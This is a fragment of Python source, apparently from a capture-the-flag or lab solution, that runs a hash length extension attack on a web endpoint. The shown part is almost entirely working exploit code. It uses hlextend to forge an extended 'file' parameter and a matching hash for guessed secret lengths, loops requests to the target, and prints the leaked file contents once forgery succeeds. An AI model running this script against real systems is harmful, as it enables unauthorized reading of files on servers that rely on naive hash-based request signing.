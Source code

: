  ```
        global inDtag

        if tag == "h1":
            inHtag = False
        elif tag == "div":
            inDtag = False

    def handle_data(self, data):
        global inHtag
        global inDtag

        if inHtag:
            self.outData = self.outData + data
            #self.outData.append(data)
        elif inDtag:
            self.divData = self.divData + data
            

    def close(self):
        return [ self.outData, self.divData ]

sessions = requests.Session()

for length in range(3, 60):
    sha = hlextend.new(hashAlg)
    append = sha.extend(appendData, fileName, length, startHash, raw=True)
    newHash = sha.hexdigest()

    params['file'] = append
    params['hash'] = newHash
    reqsettings['params'] = params

    while 1:
        try:
            response = sessions.get(site, **reqsettings)
            break
        except (socket.error, requests.exceptions.RequestException):
            time.sleep(1)
            continue

    parser = HParser()
    parser.feed(response.text)
    [ out, divdata ] = parser.close()
    
    noResult = False
    
    if out.find('File not found') > -1:
        noResult = True

    if not noResult:
        print ('Length of secret: ' +  str(length))
        print ('Parameter value for file: ' +  quote(append))
        print ('Parameter value for hash: ' + newHash)
        print ('File contents: ')
        print (divdata[6:])
        sys.exit(0)
 ```
